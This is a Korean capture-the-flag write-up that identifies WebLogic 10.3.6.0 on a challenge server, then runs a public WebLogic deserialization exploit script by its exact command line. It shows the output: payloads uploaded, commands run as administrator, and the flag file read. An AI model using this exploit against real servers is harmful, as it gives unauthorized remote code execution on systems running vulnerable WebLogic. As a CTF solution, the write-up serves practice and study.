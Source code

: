 ## Solve
- http://juwon1405.iptime.org:7001/console 에 접속을 하면 weblogic 10.3.6.0 버전을 사용하는 것을 알 수 있다.

- 구글링을 통해 weblogic의 취약점을 이용해 쉘을 얻는 스크립트코드를 발견했다.
따라서 실행을 시켜 서버의 권한을 얻을 수 있었고, C:\key.txt 를 읽었다. </br>
> https://github.com/hanc00l/weblogic_unserialize_exploit

</br>

**실행 명령어**

```
./weblogic.py -u juwon1405.iptime.org -p 7001 -os win -t exploit

```


</br>

## Result
```
~/machome/ctf/doubles_ctf/web-200-error/weblogic_unserialize_exploit/bin(master*) » ./weblogic.py -u juwon1405.iptime.org -p 7001 -os win -t exploit                stitch@certis
sending upload payload...
sending install payload...
execute "whoami"...
----------------------------------------
hezek-dns\administrator


----------------------------------------
exploit>dir C:\
 C 드라이브의 볼륨에는 이름이 없습니다.
 볼륨 일련 번호: E097-C9D7

 C:\ 디렉터리

2012-12-21  오후 07:58    <DIR>          ADFS
2012-12-21  오후 07:06                 0 AUTOEXEC.BAT
2015-12-16  오전 10:00    <DIR>          bea
2012-12-21  오후 07:06                 0 CONFIG.SYS
2012-12-21  오후 07:20    <DIR>          Documents and Settings
2012-12-21  오후 07:59    <DIR>          Inetpub
2017-03-25  오후 04:05                31 key.txt
2015-12-16  오전 09:56    <DIR>          Oracle
2012-12-21  오후 07:26    <DIR>          Program Files
2015-12-16  오후 02:13    <DIR>          WINDOWS
2012-12-21  오후 07:09    <DIR>          wmpub
               3개 파일                  31 바이트
               8개 디렉터리   4,545,699,840 바이트 남음


exploit>type C:\key.txt
weblogic_hacked!!_DoubleS1405!!


exploit>
```
